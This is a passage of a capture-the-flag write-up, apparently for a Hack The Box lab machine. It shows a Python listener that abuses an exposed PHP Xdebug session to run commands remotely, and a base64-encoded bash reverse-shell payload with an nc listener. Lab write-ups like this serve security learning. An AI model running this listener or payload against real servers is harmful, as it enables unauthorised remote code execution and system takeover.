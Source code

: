 ```python
#!/usr/bin/env python2

import  socket 

ip_port = ('0.0.0.0', 9000) 
sk = socket.socket()
sk.bind(ip_port) 
sk.listen(10) 
conn, addr = sk.accept() 

while  True: 
    client_data = conn.recv(1024) 
    print(client_data) 

    data = raw_input ('>> ') 
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

```console
elpollon@elpollon:~/HTB/Static/exploits$ python exploit_shell.py

```

- Using the parameter **?XDEBUG_START_SESSION=phpstorm** in the authentication panel of **http://172.20.0.10/vpn/login.php**

![](./media/Static/xdebug-session.png)

After some F5's I got a debug prompt on the terminal where I've executed **exploit_shell.py**.

```console
elpollon@elpollon:~/HTB/Static/exploits$ python exploit_shell.py
498<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/vpn/login.php" language="PHP" xdebug:language_version="7.2.1-1ubuntu2" protocol_version="1.0" appid="49" idekey="phpstorm"><engine version="2.6.0"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2018 by Derick Rethans]]></copyright></init>
>> 
```

At this point we can execute php commands interactively.

- Listening on port 443 and execute the reverse shell payload:
**shell_exec('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMzAuMC45LzQ0MyAwPiYxCg==" | base64 -d | bash');** in the debug prompt.
```console
elpollon@elpollon:~/HTB/Static/exploits$ nc -nlvp
listening on [any] 443 ...
```
